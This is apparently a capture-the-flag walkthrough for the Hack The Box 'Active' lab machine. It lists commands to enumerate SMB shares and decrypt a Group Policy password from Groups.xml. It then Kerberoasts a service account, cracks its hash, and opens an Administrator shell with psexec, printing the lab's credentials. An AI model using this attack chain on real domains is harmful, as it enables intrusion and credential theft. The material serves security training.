





# Enumeration
- Use nmap to enumerate the ports ` sudo nmap -T5 10.10.10.100` 
- `smbclient  -L \\\\10.10.10.100` gives all smb shares:
# Exploitation
- `smbclient \\\\10.10.10.100\\Replication` to get into replication then 
	```
	smb: \> prompt off
	smb: \> recurse on
	smb: \> mget *
	```
	To download all the files
	
 - Then u get the Groups.xml file in active.htb folder
 - Copy password from Groups.xml then use gpp-decrypt the password
	 `gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`
-  **active.htb\SVC_TGS**-we also have the username from the groups.xml file
- trying to use psexec we get no write permission
- Then using [[Active Directory/Post Compromise Attacks/Kerberoasting]] we get a hash 
- Using hashcat to crack the hash we get the password `Ticketmaster1968` 
- We got the password for the following admin user
- Then using psexec to get a shell: `psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100`
	We get a root shell